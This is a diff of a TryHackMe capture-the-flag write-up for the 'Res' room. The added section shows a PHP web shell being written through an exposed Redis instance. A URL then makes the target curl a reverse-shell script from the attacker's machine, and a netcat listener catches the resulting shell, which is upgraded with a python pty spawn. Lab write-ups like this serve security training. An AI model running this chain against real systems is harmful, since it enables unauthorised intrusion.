

Before and after one commit to Aryt3/writeups, a Markdown page: tryhackme/Res/readme.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/tryhackme/Res/readme.md
+++ b/tryhackme/Res/readme.md
@@ -247,3 +247,42 @@ OK
 
 After taking a look at the website I was able to find the page with phpinfo() loaded:
 ![grafik](https://github.com/Aryt3/writeups/assets/110562298/e69b5d1c-f9a8-48a2-9d11-212851c4e5be)
+
+This basically tells me that I can upload a reverse shell.
+
+The easiest way to get a reverse shell to the target machine in my opnion is to start up a http server and make the target machine curl the php script.
+
+```sh
+python3 -m http.server 80
+Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
+10.10.57.136 - - [10/Oct/2023 09:43:53] "GET /rev_shell.php HTTP/1.1" 200 -
+```
+
+After starting up I changed the test.php script so that  Icoudl execute commands:
+```sh
+10.10.57.136:6379[1]> set test "<?php system($_GET['cmd']); ?>"
+OK
+10.10.57.136:6379[1]> save
+OK
+```
+
+After this I used the following url to download the `rev_shell.php`.
+```sh
+http://10.10.57.136/test.php?cmd=curl 10.18.20.25/rev_shell.php > rev_shell.php
+```
+
+And after starting up the Netcat listener and navigating to `10.10.57.136/rev_shell.php` I got this:
+```sh
+nc -lnvp 9001
+listening on [any] 9001 ...
+connect to [10.18.20.25] from (UNKNOWN) [10.10.57.136] 39170
+Linux ubuntu 4.4.0-189-generic #219-Ubuntu SMP Tue Aug 11 12:26:50 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
+ 00:44:30 up  1:02,  0 users,  load average: 0.00, 0.00, 0.00
+USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+/bin/sh: 0: can't access tty; job control turned off
+$ python -c 'import pty;pty.spawn("/bin/bash")'
+www-data@ubuntu:/$ export TERM=xterm
+www-data@ubuntu:/$ whoami
+www-data
+```
````
